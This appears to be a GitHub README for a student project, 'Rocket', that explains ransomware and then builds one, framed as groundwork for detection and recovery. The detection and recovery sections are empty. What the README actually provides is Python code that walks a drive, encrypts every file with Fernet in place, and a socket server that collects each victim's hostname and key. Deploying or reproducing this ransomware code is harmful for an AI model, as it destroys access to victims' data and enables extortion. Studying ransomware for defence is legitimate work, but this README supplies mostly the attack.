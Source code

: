 # Rocket

**Ransomware** is a type of `cryptovirology` that threatens to publish the victims personal data or permanently block access unless a ransome is *paid*.

**Cryptovirology** refers to the use of cryptography to devise particularly powerful malware, such as `ransomware` and `asymmetric backdoors`.

**Cryptography** and it's applications are *defensive* in nature and provide privacy, authentication and security to users. Cryptovirology employs a twist on cryptography showing that it can be used *offensively*.

In a properly implemented cryptoviral extortion attack, recorvering the files without the decryption key is an intractable problem and difficult to trace digital currencies such as `PaysafeCard` or `Bitcoin` and other cryptocurrencies are used for the ransoms, making tracing and prosecuting the perpetrators difficult.

`Ransomware` attacks are typically carried out using a **Trojan** disguised as a legitimate file that the user is tricked into downloading or opening when it arrives as an *email attachment*, or *embedded link in a phishing email*.

## REQUIREMENTS

🌟 Before we start, let's install the packages via pip by running in the terminal (Python3 Modules required to run the script):

Example
>- pip install watchdog

:point_right: pandas

:point_right: os

:point_right: datetime

:point_right: thread

:point_right: queue

:point_right: fernet

:point_right: socket

:point_right: path

:point_right: tkinter

:point_right: watchdog


## THE PROCESSES INVOLVED

- Infection: Attackers deliver the malware Payload to the target.

- Security Key Exchange: Attackers are notified they have the victim.

- Encryption: Ransomware encrypts the victim's file.

- Extortion: Attacker sends the ransome note and payment request.

- Recovery/Restore: Payment is sent in exchange for the decryption key.


## TYPES OF RANSOMWARE

- Crypto Ransomware: This type of ransomware encrypts files on a computer so that the user looses access to essential files. This is the type to be used for this project.
Examples of CryptoRansomware:
>- BadRabbit
>- Cryptolocker
>- SamSam
>- Thanos

- Locker Ransomware: This type of ransomware locks victims out of their device and prevents them from using their device. 
Examples are:
>- NotPetya and Petya
>- Ryuk
>- WannaCry


# PROJECT PLAN

**PROJECT:** Ransomware to detect, decrypt and restore.
```
Step 1: Create a code for ransomware (Encryption).
To be able to detect, there has to be a running process, and an encrypted file/drive path containing files.
We will encrypt all files at a given directory and transmit the user's hostname and random 512 bit key back to the malware server.

Step 2: Detection.
Detection would work on identifying running malware processes. Other methods of detection includes:

Honeypots > Monitored traps for a defender often used as a decoy to lure cyber attackers, to detect, deflect, and study hacking attempts to gain unauthorized access to information systems.
ML >   Machine Learning
Signature > File hashes

Step 3: Decryption and Recovery.
This step involves the decryptor asking the victim for the key that was generated on their device/machine. Only the hacker will have this key, so they must retrieve it from him/her. 
```
> Note: We know that there are libraries that uses the *AES* encryption with just a few function calls, but we are doing this manually.


# STEPS EXPLANATION
- **STEP 1:** 
    >- :point_right: **Fetch files** to be encrypted from the specified drive (*In this case we specified a flash drive*).
    We'll use the os.walk() function from the os library, which, given a path, iterates over every possible path in the form of a tree, to get a list of the files         that need to be encrypted. 
    >- :point_right: After that, we **used pandas to specify unique extentions**.
    >- :point_right: **Obtain the drive's whole list of files along with their extensions**. To obtain a list of the files that require encryption, we'll use the os.walk() function from the os package, which, given a path, iterates through every potential path in the form of a tree. The following usage is described below:
    ```
    ListFiles = os.walk(str ('E:'))
    SplitTypes = []
    for walk_output in ListFiles:
        for file_name in walk_output[-1]:
            SplitTypes.append(str('.')+file_name.split(".")[-1])
    SplitTypes
    df = pd.DataFrame(SplitTypes, columns = ['extension_names'])
    ```
    >- :point_right: **Encryption:** Data encryption and decryption are made possible by Python's support for a cryptography module. The cryptography package's fernet module has built-in functions for generating keys, converting plaintext to ciphertext, and recovering plaintext from ciphertext using the encrypt and decrypt methods, respectively. The fernet module ensures that information encrypted with it cannot be changed or decrypted without the key.
    ```
    def encrypt(key):
    while q.not_empty:
        file = q.get()
        print(f'Encrypting {file}')
        print(f'{file} SUCCESSFULLY ENCRYPTED')   
        try:
            with open('thekey.key', 'wb') as thekey:
                thekey.write(key)
            for file in file_paths:
                with open(file, 'rb') as thefile:
                    contents = thefile.read()
                contents_encrypted = Fernet(key).encrypt(contents)
                with open(file, 'wb') as thefile:
                    thefile.write(contents_encrypted)
        except: # files with admin priviledges are skipped
            print('ENCRYPTION FAILED')
        q.task_done()
    ```
    
    >- :point_right:**server implementation:**
    The bit key that will be used to encrypt all files is first generated by the ransomware. It will then compile a list of all the necessary files and encrypt them all before sending the key and the hostname of the machine to the server.
    ```
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((ipaddr, port))
    print('Listening for connections.........')
    s.listen(1)
    conn, addr = s.accept()
    print(f'Connection from {addr} established!')
    with conn:
        while True:
            host_and_key = conn.recv(1024).decode()
            with open('encrypted_hosts.txt', 'a') as f:
                f.write(host_and_key+'\n')   
            break
        print('Connection completed and closed!')  
    ```

https://user-images.githubusercontent.com/96830808/204082752-fe52e5bf-5c1b-491d-9a31-c94f005e7132.mp4

- **STEP 2:** 





# REFERENCES
- https://pythonassets.com/posts/detecting-changes-in-the-file-system-in-real-time-with-watchdog/
- 
